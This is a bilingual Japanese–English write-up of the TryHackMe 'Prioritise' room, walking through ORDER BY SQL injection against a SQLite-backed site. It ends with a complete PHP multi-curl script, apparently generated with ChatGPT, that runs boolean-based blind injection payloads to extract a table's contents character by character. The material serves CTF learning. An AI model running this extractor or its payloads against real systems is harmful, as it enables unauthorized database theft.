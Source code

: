 # Prioritise
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/e2e0bd5c-78b8-4c76-aaac-b97acb185934)
<p>
バナーからSQLiの問題だとわかる。普通に80で簡単なサイトがあるのでSQLiを探す。

I saw it's a SQLi problem and found SQLi.
</p>

### sort by title

![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/1a4dd085-d648-4e53-8c02-8adb4df8d950)

### sort by date

![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/96f3e59c-a406-4f81-bf1e-cfd4a2689fcc)

### ' %27
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/a9f6dd30-0240-4825-b333-a3a966e56263)

### '' %27%27
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/912c196b-8866-4104-84f1-cd9fc4342b0a)


### sort by title ASC/DESC

![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/b61644b0-68eb-4dcd-b8ea-1be30284fdd1)

![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/d6294960-5c10-4dc8-b62f-3d337d0c605a)

### ORDER BY
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/294b8d76-130a-48d4-a608-1f897deb895d)

![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/45c42801-69d8-4249-b98d-4a50d1a0bffe)

テーブルは４カラム

Table has 4 columns

Sqlmapでとれなかったのでしかたなくブラインドでやる😥

I couldn't get credentials with Sqlmap, so I had to do it with boolean based blind.

### Payload (Boolean based)
True(order by title)
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/2a9ff095-aab0-46d4-990c-dcffcd875041)

False(order by date)
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/f9c8a979-e121-411e-ad1e-c5a061ecfd06)

本当はレスポンスコードかContentLengthが異なるようにPayloadを組みたかったができなかった（TrueもFalseも同じLengthなので内容を確認する必要がある。これが地獄の始まり）。UNION SELECTもうまくできず。😞

I wanted to make the Payload so that the response code or Content Length was different, but I couldn't do it and UNION SELECT didn't work either.Since both True and False have the same Length, it's necessary to check the contents.

元ネタ
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

SQL確認用
https://sqliteonline.com/

### DB SQLite 3.XX
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/beed55e7-ccea-4f06-8d74-2f8be9eb1978)

### Table Num 2
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/620bff31-122a-4aeb-a91d-d2f842cc7883)
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/b6cbdf7a-5c4a-4b52-83d1-e3c3834ffd04)

### Table Name Length 4
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/967ed28f-52a6-43d5-986a-65ce0e2afacb)
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/328a6ab0-74cf-4c18-a943-4bd78475da82)

### Table Name flag
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/974cadf4-75c3-4540-abda-ee61662fce14)
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/9518b684-f07c-41dd-bf1d-4ce503d1e0ea)

一文字ずつIntruderをまわし、レスポンスから文字を特定。

Use the Intruder by one character and identify the letter from the response.

全部やってみるとわかるが、もう一方のテーブル名はtodosで４カラム。flagは1カラム。

If you do it all, you'll see that the other table name is todos and has 4 columns. flag has 1 column.


### flag
![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/f6001604-2f12-4476-a94b-e81e4b6989bf)

同じ要領でflag特定。
Get the flag value same way.

🚩 Congratulations! Thank you for your time, Happy hacking. 🌕🍡🌕🍡🌕🍡


## Omake

![image](https://github.com/yukaFUNAMI/THM_Writeup/assets/6504854/eb8ffcbe-8e91-4c11-88a0-8edf14aa863f)

今回はマルチのCURLで高速化をはかった。
またもちゃっとGPTにつくってもらった。感謝

```
<?php
echo "------ START ----- \n";
$flag = "";
$FLAGLEN=38;
$URL='http://10.10.143.81/';
$SEARCHDATE='2023-08-01';
$SEARCHDATELEN=101;
$strings = array(
    "0","1","2","3","4","5","6","7","8","9",
    "a","b","c","d","e","f","g","h","i","j","k","l","m","n","o","p","q","r","s","t","u","v","w","x","y","z",
    "A","B","C","D","E","F","G","H","I","J","K","L","M","N","O","P","Q","R","S","T","U","V","W","X","Y","Z",
    "!","#","$","%","&","(",")","~","=","|","^","-","`","{","[","@","]","}","*",":",";","+","<",">","%20",".",
    "?","_" );

for ($i = 0; $i < $FLAGLEN; $i++) {
    // prm作成
    $prm = array();
    for ($j = 0; $j < count($strings); $j++) {
        $prm[$j] = '?order=(CASE+WHEN(SUBSTRING((SELECT+*+FROM+flag),'.($i + 1).',1)=%27'.$strings[$j].'%27)+THEN+title+ELSE+date+END)';
    }

    // CURL
    $mh = curl_multi_init();        // CURLマルチハンドルを初期化
    $handles = array();

    // 各URLに対してCURLハンドルを作成しマルチハンドルに追加
    foreach ($prm as $prm) {
        $ch = curl_init($URL.$prm);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        curl_multi_add_handle($mh, $ch);
        $handles[] = $ch;
    }

    // マルチハンドルで複数のリクエストを同時に実行
    $running = null;
    do {
        curl_multi_exec($mh, $running);
    } while ($running > 0);

    // 各リクエストのレスポンスを処理
    foreach ($handles as $ch) {
        $response = curl_multi_getcontent($ch);
        
        // レスポンスを行ごとに分割
        $responseLines = explode("\n", $response);

        // 行ごとに "2023-08-01" を探す
        foreach ($responseLines as $lineNumber => $line) {
            if (strpos($line, $SEARCHDATE) !== false) {
                $target = curl_getinfo($ch, CURLINFO_EFFECTIVE_URL);
                //$target = http://10.10.143.81/?order=(CASE+WHEN(SUBSTRING((SELECT+*+FROM+flag),1,1)=%27c%27)+THEN+title+ELSE+date+END)
                //echo 'URL: ' . $target . ' の行数: ' . $lineNumber."\n";
                if ($lineNumber != $SEARCHDATELEN) {
                    // flagの文字列の切り出し
                     if (preg_match('/%27.%27/', $target, $char)) {
                        $str = str_replace('%27', '', $char[0]);
                        echo $str;
                        $flag = $flag.$str;
                    }
                }
            }
        }
        curl_multi_remove_handle($mh, $ch);
        curl_close($ch);
    }

    curl_multi_close($mh);

    }
//echo "FLAG:".$flag."\n";
echo "\n------ END ------- \n";
?>
```


